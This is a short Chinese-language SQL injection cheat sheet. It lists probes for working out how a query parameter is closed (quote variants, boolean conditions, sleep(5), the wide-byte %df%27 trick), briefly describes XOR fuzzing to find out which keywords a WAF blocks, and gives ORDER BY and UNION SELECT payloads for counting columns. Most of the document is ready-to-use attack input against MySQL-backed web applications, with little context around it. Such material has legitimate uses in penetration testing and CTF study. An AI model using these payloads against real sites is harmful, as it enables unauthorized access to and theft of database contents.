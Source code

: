 ## 闭合判断
```
?id=1' 
?id=1" 
?id=1') 
?id=1") 
?id=1' or 1#
?id=1' or 0#
?id=1' or 1=1#
?id=1' and 1=2#
?id=1' and sleep(5)#
?id=1' and 1=2 or ' 
?id=1\
宽字节
%df%27
```

## 关键字fuzz
### 异或fuzz
基本原理：当waf过滤了对应关键字通过异或运算结果来改变页面反馈判断黑名单

## 字段数判断
使用 order/group by 语句，通过往后边拼接数字指导页面报错,确定字段数量
```mysql
1' order by 1#
1' order by 2#
1' order by 3#
1 order by 1
1 order by 2
1 order by 3
```
使用 union select 联合查询，不断在 union select 后面加数字，直到不报错，即可确定字段数量
```mysql
1' union select 1#
1' union select 1,2#
1' union select 1,2,3#
1 union select 1#
1 union select 1,2#
1 union select 1,2,3#
```